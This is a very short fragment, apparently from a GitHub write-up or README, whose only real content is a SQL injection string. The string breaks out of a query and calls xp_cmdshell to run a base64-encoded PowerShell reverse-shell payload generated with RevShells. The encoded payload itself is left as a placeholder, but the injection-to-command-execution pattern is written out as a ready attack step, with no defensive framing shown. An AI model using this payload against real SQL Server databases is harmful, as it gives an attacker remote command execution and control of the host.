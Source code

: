 The following payload has been crafted with [RevShells](https://www.revshells.com/)

```sql
'; EXECUTE xp_cmdshell '<CRAFTED POWERSHELL BASE64 PAYLOAD USING REVSHELL>'; --
```

